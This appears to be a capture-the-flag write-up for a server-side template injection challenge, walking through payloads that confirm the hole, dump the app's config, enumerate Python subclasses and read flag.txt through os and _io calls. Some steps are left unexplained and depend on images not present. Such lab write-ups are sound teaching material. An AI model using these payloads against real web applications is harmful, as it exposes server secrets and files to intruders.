





# Solution
- Instructions to solve:
Flag 1: 

To Check if it vulnerable: 
Can test the input if it's vulnerable to SSTI using {{5*5}}

You'll see the output as 25, confirming the template engine is vulnerable

Now to find which engine it is:

This confirms that the template engine could be twig or jinja

Now to find the flag, lets look for the config {{config.items()}}

    
This solves the first flag

Flag 2:
Now to find the flag, we need to dive deeper, try to access environ, and directory.

We can find all the supported python modules using {{''.__class__.__mro__[1].__subclasses__()}}

Now to solve the flag we'll use following commands

1. To list the current directory using os modules -  {{ os.listdir('.') }}

2. To open the file using io wrapper class - {{ _io.open('flag.txt').read() }}

